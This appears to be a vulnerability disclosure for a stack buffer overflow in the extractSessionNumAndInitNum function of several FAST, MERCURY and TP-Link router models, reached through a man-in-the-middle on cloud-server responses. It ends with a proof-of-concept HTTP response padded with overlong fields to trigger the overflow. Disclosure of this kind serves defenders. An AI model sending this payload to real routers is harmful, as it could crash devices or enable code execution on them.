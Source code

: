 # extractSessionNumAndInitNum Vulnerability Report

FAST,MERCURY and TP-Link routers have a stack overflow issue in `extractSessionNumAndInitNum` function.

Local users could get remote code execution, this vulnerability currently affects three types of routers:

- FAST: FW, FAC, FR series (e.g., FW325R, FR100P-AC, FAC1900R, FAC1200R)
- MERCURY: D, M, MW series (e.g., M6G, D196G, MW310R, MW351R, D121G)
- TP-Link: WDR, WR, R, WA series (e.g., TL-WDR7660, TL-WDR7650, TL-WA933RE)

It affects the linux system and vxworks system. we believe there are much more models suffered from this vuln.

## Vulnerability Description

**Threat model**: An attacker can intercept the traffic between router and Intenet. That is, an attacker can perform a man-in-the-middle attack on the router.

This vulnerability happen when `extractSessionNumAndInitNum` handle data from cloud server by using `strncpy`.

1. Attackers intercept the response from cloud server.
2. Then attackers send a malicious response to the router. The data up to the `' '`  and `'\r\n'`  in this malicious response are filled a long string.
3. `extractSessionNumAndInitNum` get these fileds by using `strstr`. However, the length is not checked.
4. Finally, whole string of these fields are copyed to the stack by `strncpy` and lead to a stack buffer overflow to execute arbitrary code.


![5](photos/5.png)

## PoC

```
HTTP/1.1 200 OK
Content-Type: text/html;charset=UTF-8
Content-Length: 200
Connection: close
Cache-control: no-cache

111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111aaa aaa111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111\r\n
```

